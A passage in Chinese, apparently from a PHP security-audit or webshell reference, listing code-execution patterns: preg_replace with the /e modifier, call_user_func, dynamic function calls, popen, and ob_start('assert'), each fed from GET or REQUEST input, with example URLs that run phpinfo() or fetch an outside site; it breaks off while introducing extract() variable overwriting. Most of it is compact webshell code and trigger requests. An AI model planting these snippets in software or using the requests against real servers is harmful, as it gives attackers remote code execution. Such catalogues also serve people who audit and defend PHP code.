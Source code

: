 ```
<?php echo $regexp = $_GET['reg'];$var = '<php>phpinfo()</php>';preg_replace("/<php>(.*?)$regexp", '\1', $var);?>

http://www.example.com/shell.php?reg=%3C/php%3E/e
```
```
<?php @preg_replace("//e",$_GET['shell'],"Access Denied");?>

http://www.example.com/shell.php?shell=phpinfo()
```
```
<?php preg_replace("/s*[php](.+?)[/php]s*/ies", "\1", $_GET['h']);?>

http://www.example.com/shell.php?h=[php]${phpinfo%28%29}[/php]
or
http://www.example.com/shell.php?h=[php]phpinfo()[/php]
```
#### 3) 回调函数call\_user\_func()
```
<?php
    //test.php?a=assert
    $a = $_GET['a'];
    call_user_func($a,'phpinfo()');
?>
```
#### 4) 动态函数执行
```
<?php
    //test.php?a=assert&b=phpinfo()
    $_GET['a']($_GET['b']); ///assert(phpinfo());
?>
```
#### 5) 命令执行函数
> system(), exec(), shell\_exec(), passthru() ,pcntl\_exec(), popen(),proc\_open()、`whoami`

```
<?php 
popen( 'whoami >> 1.txt', 'r' ); 
?>
```
#### 6) ob\_start()函数
```
<?php ob_start('assert');echo $_REQUEST['pass'];ob_end_flush();?>

http://www.example.com/shell.php?e=assert&pass=file_get_contents('http://www.dnsdomain.com/')
```
### 变量覆盖
#### 1) extract()函数
```
extract()这个函数在指定参数为EXTR_OVERWRITE或者没有指定函数可以导致变量覆盖。
语法
　　extract(array,extract_rules,prefix)
参数
　　array 必需。规定要使用的输入。
　　extract_rules
　　　　·EXTR_OVERWRITE – 默认。如果有冲突，则覆盖已有的变量。
　　　　·EXTR_SKIP – 如果有冲突，不覆盖已有的变量。（忽略数组中同名的元素）
　　prefix 可选。
```
> example

